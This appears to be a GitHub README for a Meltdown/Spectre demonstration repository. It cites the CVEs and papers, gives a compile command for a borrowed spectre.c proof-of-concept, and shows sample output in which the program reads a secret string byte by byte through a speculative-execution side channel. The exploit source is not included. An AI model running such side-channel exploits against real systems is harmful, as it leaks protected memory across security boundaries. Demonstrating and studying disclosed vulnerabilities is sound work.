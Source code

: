 # meltdown_spectre

# Meltdown
CVE-2017-5754 is the official reference to Meltdown. 
https://meltdownattack.com/meltdown.pdf

# Specre
CVE-2017-5753 and CVE-2017-5715 are the official references to Spectre.
https://spectreattack.com/spectre.pdf

To Compile on ubuntu 16.04

    # gcc spectre.c -o spectre
 
Thank you to https://gist.github.com/ErikAugust/724d4a969fb2c6ae1bbd7b2a9e3d4bb6 for this code.  I modified it to work on ubuntu-xenial-16.04-amd64-server-20170721 (ami-cd0f5cb6)
    
# Sample Output

    root@brakerubuntu:/tmp/src]# ./spectre
    Reading 40 bytes:
    Reading at malicious_x = 0xffffffffffdfebb8... Success: 0x54=’T’ score=2
    Reading at malicious_x = 0xffffffffffdfebb9... Success: 0x68=’h’ score=2
    Reading at malicious_x = 0xffffffffffdfebba... Success: 0x65=’e’ score=2
    Reading at malicious_x = 0xffffffffffdfebbb... Success: 0x20=’ ’ score=7 (second best: 0xDE score=1)
    Reading at malicious_x = 0xffffffffffdfebbc... Success: 0x4D=’M’ score=2
    Reading at malicious_x = 0xffffffffffdfebbd... Success: 0x61=’a’ score=2
    Reading at malicious_x = 0xffffffffffdfebbe... Success: 0x67=’g’ score=2
    Reading at malicious_x = 0xffffffffffdfebbf... Success: 0x69=’i’ score=2
    Reading at malicious_x = 0xffffffffffdfebc0... Success: 0x63=’c’ score=2
    Reading at malicious_x = 0xffffffffffdfebc1... Success: 0x20=’ ’ score=7 (second best: 0x00 score=1)
    Reading at malicious_x = 0xffffffffffdfebc2... Success: 0x57=’W’ score=2
    Reading at malicious_x = 0xffffffffffdfebc3... Success: 0x6F=’o’ score=2
    Reading at malicious_x = 0xffffffffffdfebc4... Success: 0x72=’r’ score=2
    Reading at malicious_x = 0xffffffffffdfebc5... Success: 0x64=’d’ score=7 (second best: 0x00 score=1)
    Reading at malicious_x = 0xffffffffffdfebc6... Success: 0x73=’s’ score=2
    Reading at malicious_x = 0xffffffffffdfebc7... Success: 0x20=’ ’ score=2
    Reading at malicious_x = 0xffffffffffdfebc8... Success: 0x61=’a’ score=7 (second best: 0x00 score=1)
    Reading at malicious_x = 0xffffffffffdfebc9... Success: 0x72=’r’ score=7 (second best: 0x05 score=1)
    Reading at malicious_x = 0xffffffffffdfebca... Success: 0x65=’e’ score=2
    Reading at malicious_x = 0xffffffffffdfebcb... Success: 0x20=’ ’ score=2
    Reading at malicious_x = 0xffffffffffdfebcc... Success: 0x53=’S’ score=7 (second best: 0x05 score=1)
    Reading at malicious_x = 0xffffffffffdfebcd... Success: 0x71=’q’ score=2
    Reading at malicious_x = 0xffffffffffdfebce... Success: 0x75=’u’ score=7 (second best: 0x05 score=1)
    Reading at malicious_x = 0xffffffffffdfebcf... Success: 0x65=’e’ score=2
    Reading at malicious_x = 0xffffffffffdfebd0... Success: 0x61=’a’ score=7 (second best: 0x05 score=1)
    Reading at malicious_x = 0xffffffffffdfebd1... Success: 0x6D=’m’ score=7 (second best: 0x00 score=1)
    Reading at malicious_x = 0xffffffffffdfebd2... Success: 0x69=’i’ score=7 (second best: 0x05 score=1)
    Reading at malicious_x = 0xffffffffffdfebd3... Success: 0x73=’s’ score=7 (second best: 0x00 score=1)
    Reading at malicious_x = 0xffffffffffdfebd4... Success: 0x68=’h’ score=7 (second best: 0x05 score=1)
    Reading at malicious_x = 0xffffffffffdfebd5... Success: 0x20=’ ’ score=2
    Reading at malicious_x = 0xffffffffffdfebd6... Success: 0x4F=’O’ score=7 (second best: 0x05 score=1)
    Reading at malicious_x = 0xffffffffffdfebd7... Success: 0x73=’s’ score=2
    Reading at malicious_x = 0xffffffffffdfebd8... Success: 0x73=’s’ score=2
    Reading at malicious_x = 0xffffffffffdfebd9... Success: 0x69=’i’ score=2
    Reading at malicious_x = 0xffffffffffdfebda... Success: 0x66=’f’ score=2
    Reading at malicious_x = 0xffffffffffdfebdb... Success: 0x72=’r’ score=2
    Reading at malicious_x = 0xffffffffffdfebdc... Success: 0x61=’a’ score=2
    Reading at malicious_x = 0xffffffffffdfebdd... Success: 0x67=’g’ score=2
    Reading at malicious_x = 0xffffffffffdfebde... Success: 0x65=’e’ score=7 (second best: 0x00 score=1)
    Reading at malicious_x = 0xffffffffffdfebdf... Success: 0x2E=’.’ score=2
